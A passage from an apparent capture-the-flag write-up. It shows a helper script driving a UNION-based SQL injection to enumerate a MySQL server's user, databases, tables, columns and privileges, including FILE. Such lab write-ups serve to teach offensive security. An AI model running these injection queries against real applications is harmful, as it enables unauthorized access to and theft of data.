 It doesn’t do anything special except give me the ability to fill in the `union ...` statement with an SQL statement that returns one column and get a result quickly.

For example:

```

oxdf@parrot$ python3 sqli.py 
> select user()
uhc@localhost
> select database()
registration

```

### Enumerate DB

There are four DBs in this instance, but only `registration` is interesting as far as having data (the others are mysql internals):

```

> select schema_name from information_schema.schemata
information_schema
performance_schema
mysql
registration

```

There’s a single table in that DB:

```

> select table_name from information_schema.tables where table_schema = 'registration'
registration

```

It has four columns:

```

> select column_name from information_schema.columns where table_name = 'registration'
username
userhash
country
regtime

```

There’s no kind of password or anything.

I can check for what privileges my user has:

```

> select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
```